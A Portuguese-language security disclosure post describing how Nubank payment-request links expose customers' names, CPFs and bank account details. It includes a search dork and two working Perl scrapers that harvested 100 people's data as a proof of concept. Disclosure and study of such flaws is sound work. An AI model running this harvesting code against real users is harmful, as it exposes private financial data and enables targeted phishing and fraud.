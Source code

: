 ```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.

**DISCLAIMER**: A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir potenciais riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.

- Essa publicação também está dispoível em: [Espanhol](/2020/06/23/caso-de-scraping-de-dados-personales) e [Inglês](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamente consiste em: 1) preencher um valor de sua escolha (se desejar) e 2) clique em confirmar 3) após isso, um QR Code é gerado, e você tem a opção de compartilhá-lo ou enviar a cobrança por meio de outro aplicativo, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensangens. Quando o link é aberto no navegador, é obtido o seguinte resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link como: o nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir essa URL.

A URL em questão é gerada exclusivamente pelo cliente em seu aplicativo, e também cabe ao cliente definir como e com quem compartilhar cada URL gerada.

Porém, essas URLs são indexadas por motores de busca, sendo possível realizar a utilizar de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as urls contenham o padrão "/pagar/" e os retornos envolvendo o blog sejam excluídos:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, foi possível observar que alguns usuários estavam publicando essas URLs em outros canais, como o Twitter. Um uso comum da funcionalidade seria para receber doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, uma prova de conceito foi criada. A primeira parte dessa PoC consiste na construção de um código capaz de usar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas - esse valor foi limitado em 100 pois o intuito era apenas uma demonstração, mas poderia ser superior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo .txt, foi desenvolvido outro scraper que para extrair os dados da página do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas da Nubank é alta devida a sua facildade de exploração. Podendo então expor diversos usuários, vazando informações sensíveis como ilustrado anteriormente. Além disso, um atacante que tenha essas informações em mãos pode usá-las para desenvolver uma abordagem de engenharia social muito bem direcionada.

---

### Conclusão

Através dessa análise, é possível afirmar que um agente malicioso poderia implementar scrapers para mapear as URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nelas. Este artigo apresentou uma PoC como uma dessas implementações, utilizando um motor de busca, mas ainda há espaço para outros canais, como redes sociais (Twitter, Facebook e outras). Esse cenário poderia ser usado para tornar clientes do Nubank em vítimas de ataques de spear phishing/engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)